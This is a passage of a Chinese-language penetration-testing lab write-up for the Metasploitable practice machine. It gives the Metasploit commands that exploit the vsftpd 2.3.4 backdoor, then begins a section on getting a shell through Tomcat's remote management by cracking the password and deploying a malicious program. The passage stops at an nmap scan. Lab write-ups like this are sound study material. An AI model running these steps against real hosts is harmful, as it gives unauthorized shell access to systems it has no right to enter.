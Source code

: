 而通过版本号可以看到vsftpd的版本号为2.3.4

使用msf进行复现

```
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set payload
set rhost IP
exploit
```

![image-20221010154548383](../../images//image-20221010154548383.png)







## 2 中间件类--tomcat

### 2.1 漏洞简介

当Tomcat提供远程管理的功能时，可以通过破解口令后部署恶意程序后，从而获取到主机shell。

### 2.2 影响范围

ALL

### 2.3 漏洞复现



使用nmap扫描探测metasploitable靶机8180端口
